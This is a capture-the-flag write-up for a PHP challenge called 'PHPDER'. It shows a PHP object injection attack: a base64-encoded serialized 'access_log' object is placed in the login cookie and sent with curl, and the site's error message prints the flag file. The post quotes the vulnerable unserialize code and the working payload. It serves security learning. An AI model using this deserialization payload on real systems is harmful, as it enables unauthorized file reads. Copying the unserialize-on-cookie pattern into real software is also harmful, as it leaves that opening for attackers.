 # PHPDER Writeup

> Flag: FNW_CTF{pHp_0bj4ct_inj4ct10n_vu1n}

At first glance it is a login page:

![image](https://user-images.githubusercontent.com/80664686/117576250-66aa6180-b10f-11eb-8036-3bdadc9e0a61.png)

I tried a bit of SQL injection but there's just some <span style="color:red">*Invalid Login*</span> error

Ran `gobuster` to do some recon and found `/backup.zip` file. Unzip it and there're the sources of the web

File: [backup.zip](files/phpder_backup.zip)

## Overview code explaination

In `index.php`:
1. Run `cookie.php`
2. If we send a post message with 2 parameters: ***user** & **pass** --> create a new object `permission(user, pass)`
3. Check if the user is guest or admin
4. **Serialize** the object and encode with **base64**
5. Goto `authentication.php`

In `cookie.php`:
1. Create a new class **permission**. P/S: If you're familiar with *object oriented programming*, you should be easily understand it
2. Unserialize the **login** cookie, check if it's guest or admin
3. If cannot unserialize! --> print the object to screen

In `authentication.php`:
1. Create class **access_log** 
2. If it's admin --> append to log file

## Exploitation
By looking at this block:
```php
if(isset($_COOKIE["login"])){
	try{
		$perm = unserialize(base64_decode(urldecode($_COOKIE["login"])));
		$g = $perm->is_guest();
		$a = $perm->is_admin();
	}
	catch(Error $e){
		die("Deserialization error. ".$perm);
	}
}
```
> If cannot unserialize! --> print the object to screen

If you try to serialize yourself on local enviroment `$php -a`, you'll get something like this:
> TzoxMToicGVybWlzc2lvbnMiOjI6e3M6ODoidXNlcm5hbWUiO047czo4OiJwYXNzd29yZCI7Tjt9

Base64 decode, which is the serialized object:
> O:11:"permissions":2:{s:8:"username";N;s:8:"password";N;}

By default, the website will serialize **permission** object then deserialize it. 

What if... we change **permission** object to **access_log** object?

Serialized **access_log**:
> O:10:"access_log":1:{s:8:"log_file";s:8:"flag.txt";}

`flag.txt` is just a guess by the way 😛

Base64 encode:
> TzoxMDoiYWNjZXNzX2xvZyI6MTp7czo4OiJsb2dfZmlsZSI7czo4OiJmbGFnLnR4dCI7fQo=

Now we need to add the cookie and let it run the *print object* in `cookie.php`, but we need to request to `authentication.php` first to load the object structure.

```fish
$ curl http://chall4.ctf.night-wolf.io/authentication.php -b 'login="TzoxMDoiYWNjZXNzX2xvZyI6MTp7czo4OiJsb2dfZmlsZSI7czo4OiJmbGFnLnR4dCI7fQo="'
Deserialization error. FNW_CTF{pHp_0bj4ct_inj4ct10n_vu1n}
```
✨✨✨

[Go back](README.md)
